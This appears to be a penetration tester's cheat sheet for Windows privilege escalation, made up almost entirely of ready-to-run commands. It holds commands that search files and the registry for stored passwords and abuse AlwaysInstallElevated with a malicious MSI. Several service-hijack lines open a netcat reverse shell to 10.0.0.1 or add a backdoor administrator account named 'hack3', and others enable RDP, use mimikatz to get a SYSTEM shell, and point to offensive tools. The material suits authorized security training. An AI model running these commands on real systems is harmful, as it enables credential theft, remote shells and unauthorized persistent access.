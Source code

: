 ```
 ○ dir /a-r-d /s /b (find writable files)
 ○ findstr /si password *.xml *.ini *.txt
 ○ reg query HKLM /s /f password
 ○ reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
 ○ reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
 ○ reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
 ○ reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
 ○ Always Install Elevated
    ○ reg query "HKLM\Software\Microsoft\Windows NT\Installer" /v AlwaysInstallElevated
    ○ reg query "HKCU\Software\Microsoft\Windows NT\Installer" /v AlwaysInstallElevated
    ○ msiexec /quiet /qn /package malicious.msi
 ○ %appdata% %ProgramData% (or $env:programdata, $env:appdata)
```

### Escalation
```
 ○ weak service permissions
    ○ sc config upnphost binpath= "C:\nc.exe -nv 10.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    ○ sc config upnphost obj= ".\LocalSystem" password= ""
    ○ net start upnphost
    ○ sc config ssdpsrv binpath= "C:\nc.exe -nv 10.0.0.1  9988 -e C:\WINDOWS\System32\cmd.exe" start= auto obj= ".\LocalSystem" password= ""
    ○ sc config ssdpsrv binpath= "cmd /c net user hack3 potato /add && net localgroup administrators hack3 /add && net localgroup """remote desktop users""" hack3 /add" start= auto obj= ".\LocalSystem" password= ""
    ○ With sc config: Might need to set depend= "" as well
 ○ at
 ○ DLL hijacking
 ○ Enable RDP
    ○ netsh firewall set service RemoteDesktop enable -OR- netsh firewall set service type = remotedesktop mode = enable
    ○ reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    ○ reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

### Tools
```
 ○ powersploit powerup
 ○ Get 64-bit powershell from 32-bit shell/process: `c:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe` (this virtual directory is only available to 32-bit apps)
 ○ jaws-enum.ps1 -OutputFileName enum.txt
 ○ https://github.com/absolomb/WindowsEnum/blob/master/WindowsEnum.ps1
 ○ windows-exploit-suggester.py (takes systeminfo output as input) https://github.com/GDSSecurity/Windows-Exploit-Suggester
 ○ windows-privesc-check2.exe (TMI, DON'T dump all) https://github.com/pentestmonkey/windows-privesc-check
 ○ churrasco.exe - upgrade from 'network service' to 'system' (/usr/share/sqlninja/apps/churrasco.exe)
 ○ mimikatz
    ○ Launch SYSTEM cmd: `token::elevate` `process::runp` `misc::cmd`
 ○ SysInternals
    ○ Accesschk.exe
        ○ accesschk -uwqds Everyone c:\
        ○ accesschk -uwqds Users c:\
        ○ accesschk -uwqds "Authenticated Users" c:\
        ○ accesschk.exe -ucqv upnphost
    ○ PsExec.exe - admin to system = psexec -s -i cmd.exe  
    ○ ProcMon
 ○ Compile python win exploits: /var/lib/veil/PyInstaller-3.2.1/pyinstaller.py --onefile xxx.py
```
